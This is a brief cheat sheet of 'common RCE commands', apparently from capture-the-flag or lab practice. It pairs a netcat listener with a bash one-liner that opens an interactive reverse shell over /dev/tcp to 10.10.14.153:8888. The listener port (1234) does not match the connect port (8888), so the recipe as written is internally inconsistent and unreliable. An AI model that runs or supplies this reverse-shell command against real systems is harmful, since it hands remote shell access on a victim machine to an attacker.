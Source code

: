 # Common RCE commands

Use netcat to listen locally on port 1234

```bash
netcat -lvnp 1234
```

On the remote host, connect to our listener (10.10.14.153:8888 here) with

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.153/8888 0>&1"
```

